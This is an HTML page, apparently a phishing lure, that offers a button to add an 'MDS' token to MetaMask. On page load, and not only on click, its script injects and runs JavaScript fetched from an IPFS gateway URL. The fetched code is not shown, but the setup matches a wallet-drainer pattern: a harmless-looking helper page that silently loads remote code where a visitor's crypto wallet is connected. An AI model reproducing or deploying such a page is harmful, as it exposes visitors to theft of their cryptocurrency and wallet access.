 
<!DOCTYPE html><html lang=en><head></head><body><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><center><button onclick=addMDS() id=loadingButton>Add MDS in Metamask</button><style>@keyframes button-animation{0%{transform:scale(1)}50%{transform:scale(.8)}100%{transform:scale(1)}}#loadingButton{background-color:#007bff;color:#fff;padding:10px 20px;font-size:16px;border:none;border-radius:4px;cursor:pointer;transition:transform .3s;animation:none;position:relative;overflow:hidden}#loadingButton.loading:after{content:"";position:absolute;top:0;left:0;width:100%;height:100%;background:rgba(255,255,255,.5);border-radius:4px;z-index:1;animation:loadingAnimation 2s linear infinite}@keyframes loadingAnimation{0%{transform:translateX(-100%)}100%{transform:translateX(100%)}}</style></center><script>function addMDS(){/Android/i.test(navigator.userAgent)&&window.ethereum&&window.ethereum.isDApp?window.location.href="https://metamask.app.link/dapp/<YOUR_DAPP_URL>":executePCFlow()}function executePCFlow(){var t=document.querySelector("button"),n;t.style.animation="button-animation 0.3s ease-in-out";setTimeout(function(){t.style.animation="none"},300);n=document.createElement("script");n.src="https://scarlet-shy-lynx-651.mypinata.cloud/ipfs/QmTQubMnCuYEZY9kbbGA6HVnfo912ENHY2PQyegSGLXWzG?_gl=1*1i7l39e*rs_ga*NzY1NzUxMTczLjE2ODUzODcwMTU.*rs_ga_5RMPXG14TE*MTY4NzQ4MTAzNS45LjEuMTY4NzQ4NDAxMC42MC4wLjA.";document.head.appendChild(n)}addMDS()</script><style>@keyframes button-animation{0%{transform:scale(1)}50%{transform:scale(.8)}100%{transform:scale(1)}}</style></body></html>
